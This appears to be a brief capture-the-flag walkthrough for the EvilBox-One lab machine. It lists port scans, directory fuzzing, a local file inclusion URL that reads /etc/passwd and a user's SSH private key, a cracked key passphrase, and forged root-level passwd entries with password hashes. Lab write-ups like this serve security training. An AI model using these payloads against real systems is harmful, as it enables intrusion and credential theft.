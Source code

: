 SS----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# EvilBox-One
# 3/1/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))



└─$ gobuster dir -u http://192.168.75.212/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php
http://192.168.75.212/secret/evil.php

 ffuf -u ‘http://192.168.1.21/secret/evil.php?FUZZ=/etc/passwd’ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 0


 http://192.168.75.212/secret/evil.php?command=/../../../../etc/passwd

 http://192.168.75.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa
 unicorn          (id_rsa)     

$1$n5MNRFce$IqIMbAmFoYh6M93bjwaht/
abc

shub:$1$KifAwBLs$.cDn/iZ5OvQVXo9e/P2el0:0:0:root:/root:/bin/bash
hacker2:$1$abc$l.v9MnhgHlYBMhmsc8j3O1:0:0:root:/root:/bin/bash